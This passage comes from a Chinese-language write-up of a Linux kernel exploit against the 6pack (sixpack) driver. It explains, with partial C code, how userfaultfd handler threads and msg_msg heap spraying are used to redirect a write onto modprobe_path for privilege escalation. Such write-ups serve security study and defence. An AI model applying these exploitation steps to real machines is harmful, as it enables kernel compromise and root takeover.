 ```c
	sp->status1 = 1;
	sp->status2 = 0;

	/* resync the TNC */

	sp->led_state = 0x60;
	sp->tty->ops->write(sp->tty, &sp->led_state, 1);
	sp->tty->ops->write(sp->tty, &resync_cmd, 1);


	/* Start resync timer again -- the TNC might be still absent */
	mod_timer(&sp->resync_t, jiffies + SIXP_RESYNC_TIMEOUT);	// [4]
}
```

**userfaultfd初始化**：我们可以接着初始化 `N_THREADS` 个（本exp中为8）页错误处理线程：首先8次调用 mmap()，每次map 3页内存；每次都使用`userfaultfd`监视第2个页—`[1]`；接着开启8个页错误处理 handler—`[2]`，每个线程都处理一个特定的页。

```c
void create_pfh_thread(int id, int ufd, void *page)
{
    struct pfh_args *args = (struct pfh_args *)malloc(sizeof(struct pfh_args));

    args->id = id;
    args->ufd = ufd;
    args->page = page;

    pthread_create(&tid[id], NULL, page_fault_handler, (void *)args);
}

[...]

for (int i = 0; i < N_THREADS; i++) 		// [1]
{
    mmap(pages[i], PAGE_SIZE*3, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    ufd[i] = initialize_ufd(pages[i]);
}


for (int i = 0; i < N_THREADS; i++)
    create_pfh_thread(i, ufd[i], pages[i]); // [2]

[...]
```

**构造任意写线程**：接着继续分配8个 `kmalloc-4096` 大小的 `msg_msg` 和相应的 `kmalloc-32` 大小的 `msg_msgseg`。

- （1）首先关闭 `msg_msg` 在 `sixpack` 结构之后的消息队列—`[1]`，这样就能在原先的位置分配新的 `msg_msg`；
- （2）再次生成payload，这次 `target = modprobe_path-0x8` — `[2]`，这会将 `msg_msg->next` 指针指向 `modprobe_path-0x8`，减去8是因为`msg_msgseg->next` 必须为NULL，否则`load_msg()`就会访问下一个`msg_msgseg`，导致崩溃；

- （3）我们调用 `create_message_thread()` 创建8个线程—`[3]`，每个线程都分配`kmalloc-4096`大小的`msg_msg`，我们将消息放在被监控页的前0x10字节—`[4]`，这样 `load_msg() -> copy_from_user()` 会触发页错误并暂停；
